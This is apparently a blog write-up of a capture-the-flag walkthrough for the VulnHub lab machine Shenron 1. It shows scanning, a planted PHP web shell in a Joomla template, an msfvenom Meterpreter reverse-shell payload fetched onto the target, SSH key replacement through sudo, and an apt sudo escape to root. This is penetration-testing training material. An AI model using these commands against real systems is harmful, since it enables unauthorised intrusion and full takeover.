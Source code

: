```yaml
---
title: CTF Walkthrough for VulnHub Machine Shenron 1
date: 2024-09-03 00:00:00 +0300
categories: [Walkthrough, CTF]
tags: [vulnhub, writeup, shenron, machines, pentest]   
author: christ
---
```


## Introduction
Greetings everyone, in this walkthrough, we will talk about Shenron 1 which is the first machine of the Vulnhub Shenron series machines. This walkthrough is not only meant to catch the flag but also to demonstrate how a penetration tester will approach this machine in a real-world assessment.
This machine was set up using VirtualBox as recommended by the creator and the Network configuration was changed to 'Nat Network'.
### Description
Name: Shenron 1<br>
Goal: Get two flags<br>
Difficulty: Beginner to Intermediate<br>
Operating System: Linux<br>
Download link: [Shenron-1](https://download.vulnhub.com/shenron/shenron-1.ova)<br>
### Tools used
1) Nmap<br>
2) Netcat<br>
3) Metasploit Framework<br>
### Environment Set up
To ensure success as a penetration tester, staying organised is crucial. Proper organisation streamlines documentation and tracking of progress. In this workshop, we will create a directory tree to systematically manage our work, with detailed descriptions of each directory's purpose available here.
![Working Dir](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/working-dir.png)

## Reconnaissance
As in every penetration test, we need to identify our target on the network. We can do this by launching a quick host discovery scan against the network using Nmap. To perform the host verification we need to know our current subnet. We can perform this using the commands below:<br>
Current subnet identification: ```ip a```<br>
Host discovery scan: ```sudo nmap -sn 10.0.2.15/24```<br><br>
![Host Identification](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/target-dis.png)

After identifying our target on the network we need to know what services are run by our target to create different possible attack scenarios. We can start a service scan on our target using Nmap with the command ```sudo nmap -sV -sC  10.0.2.4 -oA services-dis```
![Service Scan](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/service-scan.png)

We can see that the target is running both an SSH server and an Apache web server. Web applications are known to contain many vulnerabilities so let's browse to the web application for further analyses. Unfortunately for us, we fall on the default Apache.
![Wep App Index Page](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/web%20app%20index%20page.png)

In a real-world scenario, the default page might be left temporarily during the setup or testing phases of the web application. So let's try to find any hidden directories in the web application. I performed the fuzzing here using **ffuf** it can be done using your tool of preference.
Command used: ```ffuf -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.0.2.4/FUZZ```<br>
![Directory Fuzzing](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/dir-fuzzing-1.png)

The fuzzing process can uncover two interesting directories which are *test* and *joomla*. The directory joomla already gives us a hint that the web application may be running the well-known CMS Joomla. Let's browse these directories chronologically as they appeared during our fuzzing.
Browsing to the *test* directory we notice that directory listing is enabled which is a vulnerability in itself. We can note this vulnerability in our **Findings** folder. 
![Directory Listing](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/directory-listing.png)

We can also see a file having an interesting name i.e. *password*, accessing the file from our command line reveals to us a pair of credentials belonging to a certain admin user.
![File Accessed](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/file-accessed-1.png)

Nex let's visit the second directory *joomla* uncovered during our fuzzing. We can see that our target runs the well-known Joomla CMS. Remember that we uncover credentials hidden in the comments of the password file so, let's try this credential against the Joomla instance to check if they are valid.
*NB: Login to the administrative interface on Joomla is done by default in the **administrator** directory.*
![Joomla Login](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/joomla-login.png)

## Exploitation
We can see that we successfully login as the admin. After a successful login, we move to Extensions -> Templates -> Templates were can now attempt to add a PHP shell to one PHP file in an unused template. Here, we will choose the protostar template and add our basic PHP shell ```system($_GET["cmd"]);``` to the error.php file.
*NB: In a real-world penetration test try to use a more complicated name such as a hash for the GET parameter value. Anyone can access that file hence if a common name is used attackers may bruteforce it and also use it to establish their foothold in your client environment.*
![Template Modification](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/template-modification.png)
After modifying our template we can now execute commands on our target. ```curl http://10.0.2.4/joomla/templates/protostar/error.php?cmd=id```<br>
![RCE Test](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/rce-test.png)

This web shell is good but to facilitate our work, we will employ Meterpreter, a sophisticated payload integrated into the Metasploit Framework. To use a meterpreter on our target we first need to craft one using the msfvenom tool from the Metasploit Framework.
```msfvenom -p linux/x64/meterpreter_reverse_tcp  LHOST=10.0.2.15 LPORT=4444 -f elf > update.elf```<br>
![Payload Crafting](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/payload-crafting-1.png)
Now after crafting our payload we then start a small HTTP server to transfer the payload to our target using Python3 http.server module.
![Python Server](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/python-server-1.png)

We then use wget on our target to download to download the payload to the /tmp directory.
![Download Operation](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/download-operation-1.png)
Before executing our payload we need to configure our listener in Metasploit.
![Metasploit Set Up](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/metasploit-set-up.png)
After starting our listener we can now give execution permission to our payload and execute it.
![Payload Execution](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/payload-exec-1.png)
Going back to the listener, we can see that we caught a shell.
![Catching Shell](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/catching-shell-1.png)
After obtaining a shell as the web user it's a good habit to search for the *web.config* file in the web root directory which may contain credentials for the database user. In this machine the file is named **web.config.txt**, and reading its content reveals to us the credentials for the database user.<br> *NB: The name of this file may change depending on the preference of the web administrator.*
![Web Config File](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/web-root-dir.png)
![DB User Creds](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/db-creds.png)
We see that the credentials belong to the user **jenny** who is also a user on the target machine so let's try to authenticate as the user jenny.<br>
*Tip: To enumerate users on the system just cat the content of the /etc/passwd file*
![User Auth](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/user-auth-1.png)

We have identified that the user is susceptible to vulnerabilities arising from password reuse. With this password, we can directly try to identify if the user has any sudo rights.
![Sudo Right](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/sudo-right-1.png)

Great we see that the user Jenny can perform copy operations by using Shenron identity. Since we observed an SSH service running during our service enumeration let's try to replace the SSH key of Shenron by using the privileges offered to us by the sudo command.
We can generate a key pair \(private, public\) on our attack host and upload the public key using the same method used above or upload it using our powerful meterpreter.
![SSH Key Gen](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-key-gen-1.png)
After uploading the public key we can now replace the **authorized_keys** file in Shenron's **.ssh** directory by impersonating Shenron using our sudo rights and then afterward attempting to use the private key to log in as Shenron
![SSH Key Replace](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-key-replacement-1.png)
![SSH Login](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-login-1.png)
Great, we successfully logged in as Shenron we can now use this new account to read the user's flag and continue our enumeration of the system.
![User Flag](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/user-flag.png)
Some users tend to store their passwords in specific files so, let's try to enumerate all files having the string *password* in their names with the command ```find / -iname *password* 2>/dev/null```. We got a hit in the **/var/opt** directory. Reading the content of the files exposes to us what seems like Shenron's password.
![File Enum](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/file-enum-2.png)
We can now use that password to read Shenron's sudo rights
![Sudo Right](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/sudo-right-2.png)
We can observe that this account can be used to run apt with root privilege. Let's browse to [GTFOBins](https://gtfobins.github.io/gtfobins/apt/#sudo) to see how we can exploit this right to obtain a root shell. Here the command ```sudo /usr/bin/apt update -o APT::Update::Pre-Invoke::=/bin/sh``` can be used to obtain a root shell as demonstrated in the image.
![Root Access](https://raw.githubusercontent.com/ChristElise/christelise.github.io/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/root-access.png) 
Great we have obtained root access to the machine, having this access means we own the machine and can do whatever we want. 

## Conclusion
Great, in this walkthrough we have learned how a simple file listing vulnerability could be used to take over a machine. In a real-world assessment, the last step will be to gather our findings and draft a report for our clients. Thanks for following up the walkthrough.






